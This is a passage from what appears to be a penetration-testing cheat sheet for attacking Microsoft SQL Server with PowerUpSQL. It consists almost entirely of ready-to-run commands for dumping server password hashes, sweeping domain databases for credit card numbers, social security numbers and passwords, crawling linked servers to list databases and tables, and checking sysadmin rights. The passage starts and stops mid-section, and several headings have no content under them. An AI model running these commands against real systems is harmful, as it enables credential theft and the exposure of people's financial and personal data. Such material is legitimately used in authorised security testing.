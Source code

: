 ````
set GET_PATH <PATH TO SQLI>
run
```

### Data exfiltration
#### SQLServerPasswordHash
```
Get-SQLServerPasswordHash -Verbose -Instance <INSTANCE> -Migrate
```
 
#### Identify Sensitive Data
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```
 
#### Identify sensitive data featuring transparent encryption
```
Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq 'TRUE'}| Get-SQLColumnSampleDataThreaded -Verbose -Threads 20 -Keyword "credit,creditcard,ssn,bsn,password,wachtwoord" -SampleSize 2 -ValidateCC -NoDefaults
```

### Query database 
```
Get-SQLQuery -Instance "<INSTANCE>" -Query "select @@servername"
Get-SQLQuery -Instance "<INSTANCE>" -Query "<QUERY>"
```

#### SQL Queries
```
#When able to connect directy to the instance
Get-SQLDatabase
Get-SQLTable
Get-SQLColumn
Get-SQLQuery -Query "use <DATABASE>; SELECT * from <TABLE>"

#Through links
List databases
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query 'SELECT name FROM master..sysdatabases;' | Where-Object customquery | Select-Object instance, customquery -ExpandProperty customquery | Select-Object instance, name

#List tables
Get-SQLServerLinkCrawl -Instance <INSTANCE> -QueryTarget AC-DBBUSINESS -Query "SELECT name FROM <DATABASE>..sysobjects WHERE xtype = 'U'" | Select-Object -ExpandProperty customquery

#List columns

#List the contents of table
```
 
### SQL Queries
#### Check if current user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Check if a user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin','<USER>')
```

#### List all sysadmins
```
````